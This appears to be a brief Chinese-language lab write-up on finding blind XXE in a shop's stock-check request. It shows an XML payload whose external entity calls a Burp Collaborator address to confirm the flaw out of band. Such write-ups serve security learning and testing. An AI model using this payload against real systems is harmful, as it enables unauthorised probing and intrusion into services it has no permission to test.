


检查库存功能发送的数据包中含有xml数据，猜测存在xxe漏洞




但是响应包中并不回显，请求数据。

使用burp collaborator客户端，接收请求数据，验证xxe

```javascript
<?xml version="1.0" encoding="UTF-8"?>
//burp collaborator客户端地址
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://58bn8ko65cvhivtgqb6wpfjxbohe53.burpcollaborator.net"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

接收到响应



